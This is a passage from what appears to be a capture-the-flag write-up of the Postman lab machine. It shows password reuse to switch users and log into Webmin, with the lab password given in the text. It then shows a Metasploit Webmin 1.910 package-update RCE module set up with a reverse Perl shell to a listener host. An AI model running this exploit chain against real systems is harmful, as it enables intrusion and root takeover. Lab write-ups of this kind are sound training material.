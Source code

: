 ```sh
redis@Postman:~$ su Matt
Password:
Matt@Postman:/var/lib/redis$
```

Damnit, Matt. We talked about this password rotation policy things in so many meetings before! In his home directory we can find the user flag. Now on to root. Poking around the machine with Matt's access rights, we don't find much. It's a good time to think back: We found a Webmin panel and Matt is already guilty once of password reuse. Let's give it another shot.

![Image]({attach}screenshot-from-2019-12-08-13-42-37.png){: .image-process-article-image}

Matt, come on! And on top of that, someone didn't install their security updates:

![Image]({attach}screenshot-from-2019-12-08-13-44-55.png){: .image-process-article-image}

Webmin itself has a set of very interesting functionalities to manage systems. So it doesn't come as a surprise if it's running under elevated privileges. Scouring the web for some interesting exploits, we find this [Webmin security bulletin](http://www.webmin.com/exploit.html) - and our current version seems to be 1.910. Normally I like to script my exploits in Python to get a deeper understanding of what they do, but this time I was inspired by Matt's laziness and decided to take the easy way in with Metasploit:

```
msf5 exploit(linux/http/webmin_packageup_rce) > options

Module options (exploit/linux/http/webmin_packageup_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   computer2008     yes       Webmin Password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.160     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      10000            yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path for Webmin application
   USERNAME   Matt             yes       Webmin Username
   VHOST                       no        HTTP server virtual hostPayload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.13      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen portExploit target:

   Id  Name
   --  ----
   0   Webmin <= 1.910
```

Firing this we end up with a root shell:
